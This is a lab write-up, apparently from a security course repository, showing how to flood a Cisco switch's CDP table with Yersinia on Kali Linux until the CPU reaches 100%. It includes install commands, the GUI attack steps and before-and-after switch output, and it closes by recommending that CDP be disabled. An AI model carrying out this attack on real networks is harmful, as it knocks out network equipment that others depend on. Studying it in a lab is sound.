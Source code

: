 ```yaml
---
title: CDP flooding
---
```


# CDP flooding

1. Goal
    * To saturate the CPU of a Cisco device.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started
    1. Check if CDP (Cisco Discovery Protocol) is enabled on the Cisco device.
    
    [More information about CDP](https://en.wikipedia.org/wiki/Cisco_Discovery_Protocol)
    ```
    Switch#show cdp
    Global CDP information:
        Sending CDP packets every 60 seconds
        Sending a holdtime value of 180 seconds
        Sending CDPv2 advertisements is enabled
    Switch#
    ```
    2. Check the CPU usage of the Cisco device
    ```
    Switch#show processes cpu history

                         11111
          444445555577777444445555577777444445555555555555555555544444
    100
    90
    80
    70
    60
    50
    40
    30
    20
    10      *************************     ********************
         0....5....1....1....2....2....3....3....4....4....5....5....6
                   0    5    0    5    0    5    0    5    0    5    0
                   CPU% per second (last 60 seconds)
    ```
    3. Install Yersinia on Kali Linux (if necessary)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```
    4. Launching CDP flooding
    ```
    root@kali:~# yersinia -G
    ```
    ![Success](./assets/yersinia.png)

    Select Launch attack -> flooding CDP table

    ![Success](./assets/attack.png)

    The result of the attack can be seen in the following outputs.
    ```
    Switch#show cdp traffic
    CDP counters :
        Total packets output: 30, Input: 36432
        Hdr syntax: 0, Chksum error: 0, Encaps failed: 0
        No memory: 0, Invalid packet: 0,
        CDP version 1 advertisements output: 5, Input: 36432
        CDP version 2 advertisements output: 25, Input: 0
    Switch#
    ```
    ```
    Switch#show processes cpu history
       999999999999999999999999999999999999999999999999999999999999
       999999999999999999999999999999999999999999999999999999999999
   100 **********************************************************
    90 **********************************************************
    80 **********************************************************
    70 **********************************************************
    60 **********************************************************
    50 **********************************************************
    40 **********************************************************
    30 **********************************************************
    20 **********************************************************
    10 **********************************************************
       0....5....1....1....2....2....3....3....4....4....5....5....6
                 0    5    0    5    0    5    0    5    0    5    0
                 CPU% per second (last 60 seconds)
    ```
    6. Conclusion
    
    It is recommended to disable CDP whenever possible.